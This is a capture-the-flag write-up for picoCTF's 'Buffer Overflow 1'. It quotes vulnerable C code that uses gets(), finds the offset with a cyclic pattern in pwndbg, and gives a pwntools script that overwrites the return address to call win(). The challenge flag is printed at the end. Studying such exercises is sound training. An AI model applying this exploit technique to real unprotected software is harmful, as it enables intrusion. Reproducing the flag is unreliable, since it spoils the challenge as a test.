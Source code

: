 # Buffer Overflow 1

## Overview:

Category: Binary Exploitation
Points: 200

## Description

Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source [here](./vuln.c). And connect with it using `nc saturn.picoctf.net 49618`

## Hints

1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Approach

Lets look at the code:

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

So we notice here that there is a dangerous `gets(buf);` function. Automatically we should be able to determine that we can overflow the buffer here. Now its just a matter of finding out the padding and what we want to change our return instruction pointer address to. And we know that the `win()` function will go ahead and output that flag for us.


## Attack

So we need to figure out a few things before we launch our attack.

1. The offset for our overflow.
2. The address of the win() function.

Launching pwngdb we can easily find the address of the win function:

```text
pwndbg> disassemble win
Dump of assembler code for function win:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
   0x080491fb <+5>:     mov    ebp,esp
   0x080491fd <+7>:     push   ebx
   0x080491fe <+8>:     sub    esp,0x54
   0x08049201 <+11>:    call   0x8049130 <__x86.get_pc_thunk.bx>
   0x08049206 <+16>:    add    ebx,0x2dfa
   0x0804920c <+22>:    sub    esp,0x8
   0x0804920f <+25>:    lea    eax,[ebx-0x1ff8]
   0x08049215 <+31>:    push   eax
   0x08049216 <+32>:    lea    eax,[ebx-0x1ff6]
   0x0804921c <+38>:    push   eax
   0x0804921d <+39>:    call   0x80490c0 <fopen@plt>
   0x08049222 <+44>:    add    esp,0x10
   0x08049225 <+47>:    mov    DWORD PTR [ebp-0xc],eax
   0x08049228 <+50>:    cmp    DWORD PTR [ebp-0xc],0x0
   0x0804922c <+54>:    jne    0x8049258 <win+98>
   0x0804922e <+56>:    sub    esp,0x4
   0x08049231 <+59>:    lea    eax,[ebx-0x1fed]
   0x08049237 <+65>:    push   eax
   0x08049238 <+66>:    lea    eax,[ebx-0x1fd8]
   0x0804923e <+72>:    push   eax
   0x0804923f <+73>:    lea    eax,[ebx-0x1fa3]
   0x08049245 <+79>:    push   eax
   0x08049246 <+80>:    call   0x8049040 <printf@plt>
   0x0804924b <+85>:    add    esp,0x10
   0x0804924e <+88>:    sub    esp,0xc
   0x08049251 <+91>:    push   0x0
   0x08049253 <+93>:    call   0x8049090 <exit@plt>
   0x08049258 <+98>:    sub    esp,0x4
   0x0804925b <+101>:   push   DWORD PTR [ebp-0xc]
   0x0804925e <+104>:   push   0x40
   0x08049260 <+106>:   lea    eax,[ebp-0x4c]
   0x08049263 <+109>:   push   eax
   0x08049264 <+110>:   call   0x8049060 <fgets@plt>
   0x08049269 <+115>:   add    esp,0x10
   0x0804926c <+118>:   sub    esp,0xc
   0x0804926f <+121>:   lea    eax,[ebp-0x4c]
   0x08049272 <+124>:   push   eax
   0x08049273 <+125>:   call   0x8049040 <printf@plt>
   0x08049278 <+130>:   add    esp,0x10
   0x0804927b <+133>:   nop
   0x0804927c <+134>:   mov    ebx,DWORD PTR [ebp-0x4]
   0x0804927f <+137>:   leave
   0x08049280 <+138>:   ret
End of assembler dump.
pwndbg>
```

We can see here that the first address (AKA, the address of the functions) is here at `0x080491f6`.
Now to find the offset. 

```text
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
*ECX  0xffffce1c ◂— 0x13bc2000
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcea0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x6161616c ('laaa')
```

Using `cyclic 100` as our input, we can identify where we need to overwrite to using the letters that are stored in the EIP.

```text
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

Now knowing the address we need to reach and the padding required, we can write a solve script:

```c
from pwn import *

conn = remote("saturn.picoctf.net", 49618)
#padding required to overwrite return pointer
overflow_num = 44
#address of win()
win = 0x080491f6

payload = b'A' * overflow_num 
payload += (p32(win))

conn.sendlineafter(b'Please enter your string: ' ,payload)
print("flag:",conn.recvall().split(b"\n")[-1].decode())
```

Note: p32 is essentially correcting the input of the address into little endian. for example: "\xf6\x91\x04\x08"


```text
$ python solve.py
    [+] Opening connection to saturn.picoctf.net on port 49618: Done
    [+] Receiving all data: Done (101B)
    [*] Closed connection to saturn.picoctf.net port 49618
    flag: picoCTF{addr3ss3s_ar3_3asy_b15b081e}
```

## Flag

picoCTF{addr3ss3s_ar3_3asy_b15b081e}